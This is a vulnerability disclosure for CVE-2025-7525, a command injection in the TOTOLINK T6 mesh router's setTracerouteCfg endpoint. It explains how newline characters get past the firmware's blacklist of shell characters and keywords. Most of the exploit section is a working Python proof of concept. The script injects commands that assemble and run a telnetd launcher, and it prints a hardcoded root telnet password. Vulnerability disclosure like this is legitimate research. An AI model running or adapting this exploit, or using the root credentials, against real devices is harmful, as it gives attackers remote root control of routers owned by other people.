


# [CVE-2025-7525](https://www.cve.org/CVERecord?id=CVE-2025-7525)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection bypass vulnerability. This vulnerability can be triggered through the topicurl `setTracerouteCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` parameter can cause command injection vulnerability



However `Validity_check` function check for command injection before doing `system` (Ghidra choke so I use IDA instead)



So `;`, `.sh`, `iptables`, `telnetd`, `&`, `|`, `$` and "\`" is blacklist. We can bypass commnad injection with new line `\n`

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setTracerouteCfg",
        "command":"\\n%s \\n"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    execute_command(target_ip, "rm /tmp/hacked")
    execute_command(target_ip, "echo -n tel >> /tmp/hacked")
    execute_command(target_ip, "echo -n netd >> /tmp/hacked")
    execute_command(target_ip, "echo -n ' # Pwned by Elvis!!!' >> /tmp/hacked")
    execute_command(target_ip, "chmod +x /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    execute_command(target_ip, "/tmp/hacked")
```

[Video](https://youtu.be/GawLaYfTwYs)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.